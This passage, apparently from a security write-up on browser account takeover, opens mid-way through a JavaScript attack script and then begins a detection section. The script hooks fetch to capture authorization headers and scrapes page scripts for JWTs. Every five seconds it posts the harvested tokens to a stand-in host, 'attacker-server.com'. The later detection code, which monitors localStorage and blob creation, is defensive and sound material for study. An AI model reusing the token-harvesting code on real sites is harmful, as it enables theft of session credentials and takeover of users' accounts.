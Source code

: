 ```javascript
            token: authHeader,
            timestamp: Date.now()
          })
        });
      }
    }
    
    return originalFetch.apply(this, args);
  };
  
  // 2. Scrape memory for tokens
  const scrapeTokensFromMemory = () => {
    const scripts = document.getElementsByTagName('script');
    const tokens = [];
    
    for (let script of scripts) {
      const content = script.innerHTML || script.textContent;
      // Look for JWT patterns
      const jwtPattern = /eyJ[A-Za-z0-9-_]+\.[A-Za-z0-9-_]+\.[A-Za-z0-9-_]*/g;
      const matches = content.match(jwtPattern);
      if (matches) {
        tokens.push(...matches);
      }
    }
    
    return tokens;
  };
  
  // 3. Periodic token harvesting
  setInterval(() => {
    const memoryTokens = scrapeTokensFromMemory();
    if (memoryTokens.length > 0) {
      fetch('https://attacker-server.com/memory-tokens', {
        method: 'POST',
        body: JSON.stringify(memoryTokens)
      });
    }
  }, 5000);
};
```

---

## 🛡️ **DETECTION AND PREVENTION**

### **Detection Signatures**
```javascript
// Monitor for suspicious authentication activities
const detectAccountTakeover = () => {
  // 1. Monitor localStorage changes
  const originalSetItem = localStorage.setItem;
  localStorage.setItem = function(key, value) {
    if (key.includes('auth') || key.includes('token')) {
      console.warn('Auth token modified:', key, value);
      // Alert security team
    }
    return originalSetItem.call(this, key, value);
  };
  
  // 2. Monitor blob creation
  const originalCreateObjectURL = URL.createObjectURL;
  URL.createObjectURL = function(blob) {
```